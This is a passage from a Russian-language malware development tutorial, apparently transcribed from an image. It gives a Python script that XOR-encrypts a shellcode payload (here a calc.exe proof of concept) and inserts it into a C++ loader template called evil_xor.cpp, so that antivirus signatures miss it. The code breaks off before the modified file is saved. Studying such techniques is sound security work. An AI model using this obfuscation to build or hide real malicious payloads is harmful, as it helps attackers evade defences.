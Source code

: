 И единственное, чего не хватает - это наш payload:    

![отсутствующий payload](./images/2/2021-09-04_13-58.png){width="80%"}    

который должен быть зашифрован с использованием XOR.    

Для этого создадим простой Python-скрипт, который зашифрует payload и заменит его в нашем C++ шаблоне:    

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.
    join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "mysupersecretkey"

## payload calc.exe
plaintext = open("./calc.bin", "rb").read()

ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil_xor.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char my_payload[] = { };', 
'unsigned char my_payload[] = ' + ciphertext)
```